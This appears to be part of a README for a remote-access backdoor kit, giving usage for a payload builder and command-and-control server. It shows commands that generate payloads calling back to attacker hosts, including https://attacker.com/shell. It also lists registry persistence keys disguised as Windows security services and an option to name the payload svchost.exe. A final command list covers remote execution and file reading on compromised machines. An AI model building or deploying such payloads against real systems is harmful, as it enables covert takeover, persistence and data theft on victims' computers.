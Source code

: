 **Registry Keys:**
- WindowsUpdate, SystemRestore, SecurityCenter, WindowsDefender
- MicrosoftUpdate, WindowsSecurity, SystemMaintenance, WindowsService

## Usage Examples

### Basic Socket Communication
```bash
# Generate payload
python payload_builder.py --lhost 192.168.1.100 --lport 4444

# Start C2 server
python c2_server.py --port 4444

# Deploy payload.exe to target
# Commands will be executed remotely
```

### HTTPS Communication
```bash
# Generate HTTPS payload
python payload_builder.py --lhost 10.0.0.5 --lport 443 --https --url https://attacker.com/shell

# Set up HTTPS C2 server at https://attacker.com/shell
# Deploy payload to target
```

### Custom Configuration
```bash
# Generate with custom settings
python payload_builder.py \
  --lhost 172.16.0.10 \
  --lport 8080 \
  --name svchost.exe \
  --reg-key WindowsSecurity \
  --encryption-key "MySecretKey2024!" \
  --output custom_payload.py
```

## C2 Server Commands

Once connected, use these commands:

```bash
# Basic commands
help                    # Show available commands
list                    # List connected clients
kill <client>          # Disconnect specific client
exit/quit              # Exit C2 server

# Remote execution
whoami                 # Get current user
ipconfig               # Network configuration
systeminfo             # System information
dir                    # Directory listing
type <file>            # Read file contents
```
